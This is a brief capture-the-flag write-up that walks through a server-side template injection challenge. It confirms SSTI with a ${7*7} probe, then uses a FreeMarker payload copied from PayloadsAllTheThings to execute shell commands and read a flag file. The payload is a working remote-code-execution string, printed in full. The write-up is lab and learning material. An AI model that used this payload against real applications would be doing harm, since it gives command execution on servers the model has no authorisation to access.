


By supplying `${7*7}` and recieving: `49`, we can assume `SSTI` is working here.


So, I simply went to [PayloadAllTheThings SSTI Java](https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Template%20Injection/Java/#freemarker-basic-injection) and grabbed this payload, which is called *Freemarker - Code Execution*
```
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
```

Then, as you can see the command `id` executed.

So, I run `ls` and saw the file `SECRET_FLAG.txt` exists, and read it using `cat SECRET_FLAG.txt` to achieve the flag.



**Flag:** ***`B3wareOfT3mplat3Inj3ction`***
